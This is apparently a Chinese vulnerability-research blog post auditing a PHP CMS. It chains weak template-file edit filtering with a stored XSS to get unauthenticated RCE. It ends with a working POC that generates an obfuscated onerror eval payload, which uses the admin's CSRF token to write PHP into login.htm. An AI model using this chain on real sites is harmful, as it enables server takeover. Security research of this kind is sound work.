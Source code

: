 

# 记一次代码审计中RCE挖掘及POC编写。 - 先知社区

记一次代码审计中RCE挖掘及POC编写。

- - -

记一次RCE漏洞挖掘及POC编写。

## 从危险的模板引入开始

在前面熟悉代码的过程中，可以注意到此CMS的模板引入方式。以catalog\_add.php文件为例，直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中。也许对于程序员来讲，呈现的效果是一样的，但是在php中，include的使用需要更谨慎才对。  
`include XXInclude('templets/catalog_add.htm');`  
[![](assets/1699929711-228b0aa0256de3b2a559572551b32145.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112103-039a0490-7eaf-1.png)  
问题出现在src/admin/file\_manage\_control.php文件，此文件是用于处理文件操作，确保安全性和有效性。但是其中的防护策略并不完全有效，所以出现了漏洞。  
漏洞代码位于文件修改功能  
[![](assets/1699929711-185c44aaf6593c36954223618d775964.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112227-35928274-7eaf-1.png)  
查看变量处理，针对变量$activepath，处理的关键逻辑在15、16、17行。  
简单来说主要目的是规范化和确保 $activepath 变量表示的文件路径是安全的，不包含目录遍历或多余的斜杠。  
[![](assets/1699929711-66b08667a681001f793d641eedfbefe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112308-4e148d92-7eaf-1.png)  
针对变量$filename，处理的关键逻辑在44-48行。  
简单来讲目的是确保文件名是安全的，不包含目录遍历攻击所需的`..`，并限制可以上传或编辑的文件扩展名不能为(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)其中的任意项。  
[![](assets/1699929711-7ec9403ff25e7c44725e2d6daee6bf82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112328-59d8998e-7eaf-1.png)  
有防御，但是不太严。所以绕过一下即可成功修改意料之外的文件内容  
1.因为其只防御了目录遍历，所以并不限制统一目录下的文件夹名  
2.因为其限制的文件名后缀是(php|pl|cgi|asp|aspx|jsp|php5|php4|php3|shtm|shtml)，所以此系统的模板文件的后缀htm会是合法的。  
所以，此时可以将任意文件内容写入到htm文件中，为什么要写入到htm文件？因为此系统所使用的模板文件就是htm，而我前面提到了直接采用了include来将htm文件包含，而不是将php文件处理的数据放入模板中会造成的危害也就是这里体现出来：将php脚本放在htm中，当被include的时候，php脚本便会执行。  
[![](assets/1699929711-e9b0b0e742106059ffb4f3d3a4313c14.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112403-6e596096-7eaf-1.jpg)  
[![](assets/1699929711-05a895b3beb1a81844aba09e892dae0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112437-82ae018c-7eaf-1.png)

## 组合拳进行危害提升

上面可以通过模板文件写入的方式RCE了，但是很鸡肋，这样只能是后台rce，这时候想将漏洞变成未授权的RCE只需要解决两个问题：  
1 只有管理员权限才能访问/admin路由下的大部分文件  
2 只有管理员权限才有修改文件的功能权限。  
第一个问题可以通过login文件来解决，因为登录页面当然不需要任何的权限即可访问。  
第二个问题就是通过XSS、或者CSRF打出组合拳或者直接尝试找到SQL注入登录后台就能解决。  
那接下来的思路就是通过找到有效的XSS/CSRF/SQL注入，让我们能以管理员的身份写入shell到/admin/login.htm文件中。  
进入到src/admin/article\_edit.php文件，此文件为系统中的文档修改功能的逻辑处理文件。  
关注此处148行有一处疑似有问题的SQL语句。  
[![](assets/1699929711-e989d114cceedc92b32701c3f6b8fbbd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112506-943e5ff0-7eaf-1.png)  
这个查询语句的目的是将一条记录跟新到名为 `$addtable`(此处即biz\_arctype) 的数据库表中，关键在于此处没有使用参数化查询来防止安全问题。

```plain
$query = "UPDATE `#@__archives` SET typeid='$typeid',typeid2='$typeid2',sortrank='$sortrank',flag='$flag',click='$click',ismake='$ismake',arcrank='$arcrank',money='$money',title='$title',color='$color',writer='$writer',source='$source',litpic='$litpic',pubdate='$pubdate',notpost='$notpost',description='$description',keywords='$keywords',shorttitle='$shorttitle',filename='$filename',dutyadmin='$adminid',weight='$weight' WHERE id='$id'; ";
```

进一步跟进dsql->ExecuteNoneQuery函数，发现系统是在执行SQL的时候做了安全检查，跟进CheckSql，发现是有针对SQL注入存在详细的过滤，不排除有绕过SQL的手法，但是此处选择另一条简单的利用思路。  
[![](assets/1699929711-96249784f7c3be5ab7b309a42a22f128.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109112548-ad0094b8-7eaf-1.png)  
[![](assets/1699929711-74e80e70b883d4aad990933271f742b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120020-80033560-7eb4-1.png)  
因为没有对参数做xss的过滤，所以此时考虑利用存储型的XSS漏洞即可，去功能点用payload插入含有输出点的body参数进行测试，发现成功执行。  
[![](assets/1699929711-f22dec2282cbaadfd9530e865a8c77fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120049-9183aebe-7eb4-1.png)  
[![](assets/1699929711-fb03ec07772c23e4137cc7236f31bd81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109120110-9dbac3b6-7eb4-1.png)

## 整合思路编写POC

思路也是比较清晰  
1.攻击者利用普通用户的文档编辑功能，将XSS的payload藏在文档中。  
2.管理员用户对普通用户的文档进行审核时执行XSS的payload，在不知情的情况下将shell写在/admin/login.htm文件中  
3.getshell，地址为：[http://xxx/admin/login.php](http://xxx/admin/login.php)  
POC和部分截图放在下面

```plain
//将此脚本放在浏览器控制台执行即可获得payload
var codeString = "//  获取URL\n" +
    "var url = document.URL;\n" +
    "var domainMatch = url.match(/^(https?:\\/\\/[^/]+)/);\n" +
    "var domain = domainMatch[1];\n" +
    "\n" +
    "//  获取Cookie\n" +
    "var cookieString = document.cookie;\n" +
    "\n" +
    "// 创建一个新的 form 元素\n" +
    "var form = document.createElement(\"form\");\n" +
    "\n" +
    "// 设置 form 的属性\n" +
    "form.setAttribute(\"method\", \"POST\");\n" +
    "form.setAttribute(\"action\", domain+\"/admin/file_manage_control.php\");\n" +
    "\n" +
    "// 使用正则表达式匹配 dede_csrf_token 的值\n" +
    "var csrfTokenMatch = cookieString.match(/dede_csrf_token=([^;]+)/);\n" +
    "\n" +
    "// 提取匹配到的值\n" +
    "var csrfTokenValue = csrfTokenMatch[1]; // 提取匹配到的值\n" +
    "\n" +
    "// 创建并设置隐藏字段\n" +
    "var fields = [\n" +
    "  { name: \"fmdo\", value: \"edit\" },\n" +
    "  { name: \"backurl\", value: \"\" },\n" +
    "  { name: \"_csrf_token\", value: csrfTokenValue },\n" +
    "  { name: \"activepath\", value: \"/admin/templets\" },\n" +
    "  { name: \"filename\", value: \"login.htm\" },\n" +
    "  { name: \"str\", value: \"1<?php phpinfo();?>\" },\n" +
    "  { name: \"B1\", value: \"\" }\n" +
    "];\n" +
    "\n" +
    "// 遍历字段数组并创建相应的 input 元素\n" +
    "fields.forEach(function (field) {\n" +
    "  var input = document.createElement(\"input\");\n" +
    "  input.setAttribute(\"type\", \"hidden\");\n" +
    "  input.setAttribute(\"name\", field.name);\n" +
    "  input.setAttribute(\"value\", field.value);\n" +
    "  form.appendChild(input);\n" +
    "});\n" +
    "\n" +
    "// 创建一个提交按钮并添加到 form 中\n" +
    "var submitButton = document.createElement(\"input\");\n" +
    "submitButton.setAttribute(\"type\", \"submit\");\n" +
    "submitButton.setAttribute(\"value\", \"Submit request\");\n" +
    "form.appendChild(submitButton);\n" +
    "\n" +
    "// 将 form 添加到文档中并自动提交\n" +
    "document.body.appendChild(form);\n" +
    "form.submit();";
var asciiArray = [];
for (var i = 0; i < codeString.length; i++) {
    asciiArray.push(codeString.charCodeAt(i));
}
var asciiString = asciiArray.join(',');
console.log('<img src="x"\n  onerror="eval(String.fromCharCode('+asciiString+'))">')
```

[![](assets/1699929711-afe8367cc375b2291d1ac5458d5577f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109110801-31582f6c-7ead-1.png)  
本篇文章因为一些原因（懂的都懂）。。。  
在尽量不影响阅读的前提上加了厚马，若有师傅想要源码进行复现学习的可以再联系我。
